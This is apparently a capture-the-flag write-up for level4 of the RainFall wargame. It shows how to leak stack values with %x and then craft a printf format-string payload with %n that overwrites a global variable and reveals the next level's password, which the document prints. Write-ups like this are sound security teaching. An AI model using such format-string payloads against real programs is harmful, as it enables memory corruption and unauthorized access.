 This exercise is basically the same as for the previous level. We must set a global variable to a specific value so that the program displays the content of the /home/level5/.pass file. To do this, we can again exploit a badly formatted printf().

The global variable we want to reach is at 0x8049810 and must be equal to 0x1025544 (=16930116) (check the [source.c file](source.c) for more details).

Let's first find the offset of the buffer in the stack:
```
level4@RainFall:~$ ./level4 
AAAA %x %x %x %x %x %x %x %x %x %x %x %x %x %x
AAAA b7ff26b0 bffff774 b7fd0ff4 0 0 bffff738 804848d bffff530 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825
```
Ok so the offest of the buffer in the stack is 12.

Now about the lenght of our input, it is clear that we cannot give an input of 16930116 bytes since fgets expects only 512 bytes. What we can do is give a %d modifier with a specified field width of 16930112 (16930116 minus the four bytes of the address of the buffer on the stack). This way, our input fits into the buffer and will be interpreted by printf().

```
level4@RainFall:~$ python -c 'print "\x10\x98\x04\x08" + "%16930112d" + "%12$n"' > /tmp/exploit
level4@RainFall:~$ cat /tmp/exploit | ./level4
...
printing 16930112 spaces twice, so it's a bit long...
...
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
We can now reach to the next level with the command `su level5` and fill in the flag found as a password.